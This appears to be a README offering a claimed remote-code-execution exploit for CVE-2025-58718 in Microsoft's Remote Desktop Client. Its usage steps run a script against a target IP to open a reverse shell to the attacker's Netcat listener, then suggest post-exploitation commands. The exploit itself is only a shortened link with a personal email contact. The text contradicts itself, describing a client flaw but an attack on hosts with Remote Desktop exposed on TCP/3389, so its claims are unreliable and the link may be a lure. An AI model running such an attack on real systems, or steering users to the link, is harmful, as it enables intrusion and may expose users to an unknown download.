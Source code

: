 # CVE-2025-58718: Remote Desktop Client RCE

## Disclaimer
This tool is for authorized security testing only. Unauthorized use against systems you do not own or have explicit permission to test is illegal and unethical. The authors are not responsible for misuse.

## Exploit Overview
This exploit targets CVE-2025-58718, a use-after-free vulnerability in the Microsoft Remote Desktop Client, enabling remote code execution over a network. It allows an attacker to execute arbitrary code on vulnerable systems by initiating a malformed RDP connection.

The exploit uses crafted RDP packets to trigger the use-after-free condition during the connection handshake, overwriting heap structures to execute a shellcode payload. The provided script includes a reverse TCP shell payload that connects back to a Netcat listener, granting remote access to the target system.

### Key Technical Details
- **Vulnerability Type**: Use-After-Free in RDP protocol handling.
- **Attack Vector**: Network-based, via TCP/3389 (default RDP port).
- **Prerequisites**: Target has Remote Desktop enabled and exposed; no authentication required for exploit trigger.

### Affected Versions
- Windows 10 (1607, 1809, 21H2, 22H2)
- Windows 11 (22H2, 23H2, 24H2, 25H2)
- Windows Server (2008 SP2/R2 SP1, 2012/R2, 2016, 2019, 2022/23H2, 2025)
- Remote Desktop App Client


## Usage
1. **Prerequisites**:
   - Install Python 3.x and dependencies (`pip install -r requirements.txt`).
   - Ensure Netcat (`nc`) is installed on your system.
   - Generate or customize shellcode for your environment (default provided is x64 reverse TCP).
2. **Setup Listener**:
   - The script automatically starts a Netcat listener on the specified port (default: 4444).
   - Ensure your listener IP is reachable by the target (e.g., public IP or same network).
3. **Run Exploit**:
   - Execute: `python cve-2025-58718.py --target <TARGET_IP> --listener-ip <YOUR_IP> --listener-port 4444`.
   - Example: `python cve-2025-58718.py --target 192.168.1.100 --listener-ip 192.168.1.10 --listener-port 4444`.
4. **Monitor**:
   - Check the Netcat listener output for a reverse shell connection.
   - On success, you’ll receive a command shell with SYSTEM privileges.
5. **Post-Exploitation**:
   - Use the shell for further enumeration or privilege escalation (e.g., `whoami`, `net user`).
  
### Exploit

[href](https://tinyurl.com/yjbh9pbc)

For any inquiries, please email me at: eviedejesu803@gmail.com



